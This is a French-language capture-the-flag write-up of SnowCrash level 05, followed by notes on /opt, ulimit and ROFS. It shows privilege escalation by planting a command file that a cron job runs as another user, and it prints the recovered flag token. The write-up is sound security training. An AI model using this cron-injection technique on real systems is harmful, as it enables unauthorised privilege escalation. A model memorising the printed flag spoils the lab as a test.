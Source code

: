 LEVEL 05

------------------------------------------------------------------------------------------------------------------------

    find . -user level05 2> /dev/null | grep -v proc
                 flag05
    find . -perm /u=s,g=s

* Recherches


    Pareil, lors de l'analyse global, on avait trouvé : 
    ls -la /var/mail
    -rw-r--r--+ 1 root mail  58 Dec 21 21:27 level05
    cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

    Ca ressemble fortement à une crontab
    level05@SnowCrash:/$ crontab
    ^Clevel05@SnowCrash:/$ crontab -l
    no crontab for level05
    level05@SnowCrash:/$ crontab -u flag05
    must be privileged to use -u

    On a aucun droit mais on devine que la crontab pourra trigger le getflag
    
    La crontab s'execute every 2nd minute (https://crontab.guru/#*/2_*_*_*_*)

    Via find . -user flag05 2> /dev/null | grep -v proc
        ./usr/sbin/openarenaserver
        ./rofs/usr/sbin/openarenaserver

    Allons voir dans /usr/sbin/
    ll
    -rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver*

    cat openarenaserver         --> Pourquoi arrive-t-on a le cat en tant qu'user level05 vu les droits ?
        
        #!/bin/sh
        for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
        done
    
    cd /opt/openarenaserver
    On voit qu'il itère sur les fichiers dans /opt/openarenaserver/*, avant de les rm -rf
    On créer un fichier dans /opt/openarenaserver dans lequel on écrit par exemple "getflag"
    sh openarenaserver depuis /usr/bin executé le contenu du fichier
    Mais pas de token

    Il faut attendre que la crontab execute le script shell toutes les 2 minutes, et donc echo le getflag dans un fichier, par exemple dans tmp

* Solution

    cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    La crontab s'execute every 2nd minute (https://crontab.guru/#*/2_*_*_*_*)

    cat openarenaserver
        
        #!/bin/sh
        for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
        done

    La crontab execute toutes les 2 minutes ce script, en tant que flag05 à priori

    echo "getflag > /tmp/flag" > xFile          (dans /opt/openarenaserver)
    Attendre 2 minutes max que la crontab s'execute
    cat /tmp/flag viuaaale9huek52boumoomioc
    su level06 viuaaale9huek52boumoomioc


------------------------------------------------------------------------------------------------------------------------

NB : 

Difference between /opt and /usr/local? : While both are designed to contain files not belonging to the operating system, /opt and /usr/local are not intended to contain the same set of files.

- /usr/local is a place to install files built by the administrator

- On the other hand, /opt is a directory for installing unbundled packages
  (i.e. packages not part of the Operating System distribution, but provided by an independent source) each one in its own subdirectory. T


NB2 :

Les limites sont des niveaux maximum acceptés par le système concernant la gestion des ressources. Il est possible d’afficher ces valeurs actuellement settées pour l’utilisateur courant grâce à la commande:

$ ulimit -a

En deuxième colonne, vous avez l’unité de mesure de la limite, et son raccourci, qui nous servira à allouer et afficher des limites spécifiques


core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 7873
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) 5
max user processes              (-u) 7873
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited

- File Size : Il s’agit là de la taille maximale de fichier qu’un utilisateur peut créer. La valeur est exprimée en kB et est bien sûr illimitée par défaut.

- Open Files : Le nombre de fichiers qu’un utilisateur peut ouvrir via ses processus. La valeur de 1024 par défaut est parfois dépassée par certaines grosses applications, ce qui mène à un crash sans pitié. C’est un des rares cas où l’ont va plutôt chercher à agrandir la valeur plutôt que de la limiter.

- CPU Time : Le temps cpu accordé à l’utilisateur et aux processus qu’il pourra lancer. Celui-ci est compté en secondes. Une fois que ce temps processeur est dépassé, le shell de l’utilisateur est sauvagement fermé via un kill. Pour plus d’infos sur le CPU Time, il y a un grand article de qualité qui en parle ici ! :-P

- Max User Processes : Le nombre maximum de processus acceptés simultanément pour un user. Peut être utile si vous êtes très paranoïaque (peut par exemple prévenir les Fork Bomb).

- Virtual Memory : Même s’il y a trois valeurs gérant la mémoire allouée, vous pouvez ne penser qu’à celle-ci. Il correspond à l’onglet VIRT dans le tableau de top. Là encore, mon article sur top pourrait vous intéresser.


- ROFS

Rofs is a read-only filesystem that allows you to create a read-only mountpoint of a read-write directory on your system.